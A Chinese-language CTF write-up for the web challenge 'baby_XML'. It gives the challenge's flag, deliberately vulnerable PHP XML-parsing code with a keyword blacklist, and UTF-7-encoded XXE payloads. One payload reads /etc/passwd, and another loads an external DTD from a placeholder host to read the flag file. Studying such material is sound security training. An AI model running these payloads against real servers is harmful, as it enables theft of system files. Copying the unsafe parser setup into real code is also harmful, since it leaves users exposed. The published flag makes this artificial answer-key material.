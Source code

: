 * 题目名称： baby_XML
* 题目类型： WEB
* 题目难度： 简单
* 出题人： S1mh0
* 考点：有过滤的XXE
* 描述：可扩展标记语言就是最牛逼的！漏洞？没有的事！
* flag：XSCTF{y00000u_r_9o0o0o0o0o0d_4t_XxE}
* Writeup：

源码

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
   if(empty($xmlfile))
    {
        echo "need xmlfile to post";
    }
    else
    {
        if (preg_match('/(\<\!DOCTYPE|\<\!ENTITY)/gis', $xmlfile))
        {
            die('not this way, sir');
        }
        if (preg_match('/php|filter|expect|glob|phar|host|encode|decode|conf|\%/is',$xmlfile))
        {
            die("bad word!");
        }
    }
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
有回显XXE，但是加了过滤，主要考查XXE编码绕过以及含`<>`字符串的文件读取，首先第一个if判断过滤了常规的xml文件格式，可以通过UTF-7或者UTF-16编码转换进行绕过，第二个if禁用了一些常见的协议，让选手老老实实用file和http协议打，并且禁止读php源码

由于flag文件是被`<>`包含住的，因此需要通过CDATA 配合外部DTD文档引入来读取，但是存放flag的位置需要靠读取passwd文件获得，CDATA无法直接读取/etc/passwd文件，需要直接通过DTD外部实体声明去读取，因此做题思路是：

1、利用编码绕过，直接通过DTD外部实体声明去读取/etc/passwd文件，获得flag位置，但是发现无法读取flag；

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE a +AFs							  
	+ADwAIQ-ENTITY b SYSTEM +ACI-file:///etc/passwd+ACI +AD4
+AF0APg
+ADw-x+AD4AJg-b+ADsAPA-/x+AD4-
```

![image-20241020231651560](README.assets/image-20241020231651560.png)

2、利用编码绕过，通过CDATA 配合外部DTD文档引入来读取flag文件

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE root +AFs
+ADwAIQ-ENTITY +ACU start +ACIAPAAhAFs-CDATA+AFsAIgA+
+ADwAIQ-ENTITY +ACU go SYSTEM +ACI-file:///fl4444449g+ACIAPg
+ADwAIQ-ENTITY +ACU end +ACIAXQBdAD4AIgA+
+ADwAIQ-ENTITY +ACU dtd SYSTEM +ACI-http://vps/evil.dtd+ACIAPg +ACU-dtd+ADs
+AF0APg 
+ADw-root+AD4AJg-all+ADsAPA-/root+AD4-
```

evil.dtd：

```dtd
<!ENTITY all "%start;%go;%end;">
```

![image-20241020231840577](README.assets/image-20241020231840577.png)



